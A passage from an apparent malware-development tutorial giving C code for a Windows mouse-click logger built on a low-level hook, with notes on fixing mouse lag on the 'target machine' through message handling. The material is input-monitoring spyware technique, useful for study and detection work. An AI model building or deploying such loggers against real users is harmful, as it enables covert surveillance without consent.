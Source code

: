 ```

BOOL MouseClicksLogger(){

    // Installing hook
    HHOOK hMouseHook = SetWindowsHookExW(
        WH_MOUSE_LL,
        (HOOKPROC)HookCallback,
        NULL,
        NULL
    );
    if (!hMouseHook) {
        printf("[!] SetWindowsHookExW Failed With Error : %d \n", GetLastError());
        return FALSE;
    }

    // Keeping the thread running
    while(1){

    }

    return TRUE;
}


int main() {

    HANDLE hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)MouseClicksLogger, NULL, NULL, NULL);
    if (hThread)
        WaitForSingleObject(hThread, 10000); // Monitor mouse clicks for 10 seconds

    return 0;
}

```
### **Improving The Implementation**

The issue with the prior code was that the while loop fails to process hooked mouse messages, which resulted in a laggy mouse movement on the target machine. To resolve this issue, it is necessary to process all message events using [DefWindowProc](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-defwindowprocw). This will ensure that the event is properly handled by the system and that any associated default behavior is carried out. `DefWindowProcW` calls the default window procedure to provide default processing for any window messages that an application does not process.

To get the message's details, [GetMessageW](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getmessagew) must be called first, which retrieves a message from the calling thread's message queue. This message is then passed to `DefWindowProcW`, which will process it. `GetMessageW` returns the message information in an [MSG structure](https://learn.microsoft.com/en-us/windows/win32/api/winuser/ns-winuser-msg) which includes everything required for the following `DefWindowProcW` call.
